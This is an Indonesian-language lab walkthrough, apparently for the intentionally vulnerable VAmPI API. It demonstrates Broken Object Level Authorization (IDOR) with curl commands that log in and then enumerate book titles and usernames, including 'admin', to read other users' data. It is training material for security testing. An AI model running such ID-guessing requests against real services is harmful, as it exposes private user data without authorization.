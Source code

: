 # Broken Object Level Authorization
Penyerang dapat mengeksploitasi endpoint API yang rentan terhadap Broken Object Level Authorization (BOLA) / IDOR (Insecure Direct Object Reference) dengan memanipulasi ID objek yang dikirimkan dalam request. ID Objek dapat berupa apa saja, mulai dari bilangan bulat berurutan, UUID, atau string. Akses tidak sah terhadap objek pengguna lain dapat mengakibatkan pengungkapan data kepada pihak yang tidak berwenang, kehilangan data, atau manipulasi data. Celah keamanan ini ditemukan pada endpoint `/books/v1/{book_title}` dan `/users/v1/{username}`

- Login terlebih dahulu untuk mengakses endpoint `/books/v1/{book_title}`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%202.JPG)

```sh
curl http://IP_Server:5000/books/v1/bookTitle36 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%204.JPG)

```sh
curl http://IP_Server:5000/books/v1/bookTitle37 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%206.JPG)

```sh
curl http://IP_Server:5000/users/v1/name1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%208.JPG)

```sh
curl http://IP_Server:5000/users/v1/name2 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2010.JPG)

```sh
curl http://IP_Server:5000/users/v1/admin --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2011.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2012.JPG)

- Pada endpoint `/books/v1/{book_title}` kita mengakses data dengan menebak urutan parameter **book_title** seperti `bookTitle36` dan `bookTitle36`. Begitu juga dengan endpoint `/users/v1/{username}` kita juga bisa mengakses data user dengan menebak urutan **username** seperti `name1` dan `name2`. Selain itu kita juga bisa menemukan data dengan username `admin`